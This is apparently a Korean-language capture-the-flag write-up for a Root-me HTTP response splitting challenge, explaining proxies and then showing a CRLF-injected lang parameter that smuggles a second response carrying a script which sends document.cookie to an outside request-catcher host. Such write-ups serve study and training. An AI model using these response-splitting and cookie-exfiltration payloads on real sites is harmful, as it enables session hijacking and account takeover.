 ```yaml
---
title : HTTP Response Splitting (풀이 봄)
categories : [Wargame, Root-me]
tags : [HTTP Response Splitting, Incomplete, 풀이 봄]
---
```


## HTTP Response Splitting
<hr style="border-top: 1px solid;"><br>

```
Old vulnerability... but powerful !
Author
Arod,  7 November 2013

Statement
A new website is under construction. 
A reverse proxy cache has been implemented in front of the web server and developers
think they have a good security.

Show them they’re wrong by bringing us an administrator access !

The website is still in development and the administrator often logs in.

Note: this is an IPv4 only challenge (for now)
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Forward Proxy / Reverse Proxy
<hr style="border-top: 1px solid;"><br>

Forward Proxy란?

클라이언트가 ```example.com``` 에 연결하려하면 사용자 PC가 직접 연결하는게 아니라, 포워드 프록시 서버가 요청을 받아서 ```example.com```에 연결하여 그 결과를 클라이언트에 전달(forward)해준다.

포워드 프록시는 대개 캐싱 기능이 있으므로 자주 사용되는 컨텐츠라면 월등한 성능 향상을 가져올 수 있으며, 정해진 사이트만 연결하게 설정하는 등 웹 사용 환경을 제한할 수 있으므로 기업 환경 등에서 많이 사용한다.

<br>

![image](https://user-images.githubusercontent.com/52172169/185041163-62abd9b5-80eb-4575-85bb-1bb328e61fda.png)

<br>

Reverse Proxy란?

클라이언트가 ```example.com``` 웹 서비스에 데이터를 요청하면 Reverse Proxy는 이 요청을 받아서 내부 서버에서 데이터를 받은 후에 이 데이터를 클라이언트에 전달하게 된다.

내부 서버가 직접 서비스를 제공해도 되지만 이렇게 구성하는 이유중 하나는 보안 때문이다.

보통 기업의 네트워크 환경은 DMZ 라고 하는 내부 네트워크와 외부 네트워크 사이에 위치하는 구간이 존재하며, 이 구간에는 메일 서버, 웹 서버, FTP 서버등 외부 서비스를 제공하는 서버가 위치하게 된다.

<br>

![image](https://user-images.githubusercontent.com/52172169/185041180-835b0698-b335-4cc5-ae74-3aa1d11b7328.png)

<br>

![image](https://user-images.githubusercontent.com/52172169/185043034-dafdd34e-5eec-4317-91f0-c87df848a966.png)

<br>

요약하면 위의 사진에서 위가 forward proxy, 아래가 reverse proxy라고 한다.

<br>

출처 
: <a href="https://www.lesstif.com/system-admin/forward-proxy-reverse-proxy-21430345.html" target="_blank">lesstif.com/system-admin/forward-proxy-reverse-proxy-21430345.html</a>
: <a href="https://exp-blog.com/safe/ctf/rootme/web-client/http-response-splitting/" target="_blank">exp-blog.com/safe/ctf/rootme/web-client/http-response-splitting/</a>

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

처음에 언어 선택하는 화면에서 언어를 선택하면 ```/user/param?lang=en```로 값을 주고 ```/home```으로 가게 됨.  

파라미터가 전달되는 언어 선택 창에서 공격을 실시.   

```/user/param?lang=en```에서 Response Header은 다음과 같음.  

<br>

```
HTTP/1.1 302 Found
Set-Cookie: lang=en; Expires=Mon, 06 Jul 2020 11:20:57 GMT; Path=/
Server: WorldCompanyWebServer
Connection: close
Location: /home
Date: Mon, 29 Jun 2020 11:20:57 GMT
Content-Type: text/html
Content-Length: 0
```  

<br>

문제에선 admin_cookie 값을 뽑아와야 되므로 XSS 공격문을 넣어줘야함.  

<br>

```
HTTP/1.1 302 Found
Set-Cookie: lang=en; Expires=Mon, 06 Jul 2020 11:20:57 GMT; Path=/
Server: WorldCompanyWebServer
Connection: close
Location: /home
Date: Mon, 29 Jun 2020 11:20:57 GMT
Content-Type: text/html
Content-Length: 0

--------추가한 부분---------

HTTP/1.1 200 OK
Content-Type: text/html
X-XSS-Protection: 0
Last-Modified: Mon, 21 Oct 2099 07:28:00 GMT 
Content-Length: 95

<script>location.href="http://iutvqnr.request.dreamhack.games?cookie="+document.cookie</script>
```

<br>

```
?lang=fr%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aLast-Modified:%20Thu,%2001%20Jan%202099%2007:28:00%20GMT%0d%0aX-XSS-Protection:%200%0d%0a%20Content-Length:107%0d%0a%0d%0a<script>location.replace('http://aflylab.request.dreamhack.games?cookie='.concat(document.cookie))</script>
```

<br>

```
HTTP/1.1 302 Found
Set-Cookie: lang=fr
Server: WorldCompanyWebServer
Connection: close
Location: /home
Date: Wed, 17 Aug 2022 06:54:47 GMT
Content-Type: text/html
Content-Length: 290

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Thu, 01 Jan 2099 07:28:00 GMT
X-XSS-Protection: 0
 Content-Length:107

<script>location.replace('http://aflylab.request.dreamhack.games?cookie='.concat(document.cookie))</script>; Expires=Wed, 24 Aug 2022 06:54:47 GMT; Path=/
```

<br>

크롬에서는 안되는지.. 다른 브라우저로 해야하나..?

<br><br>
<hr style="border: 2px solid;">
<br><br>
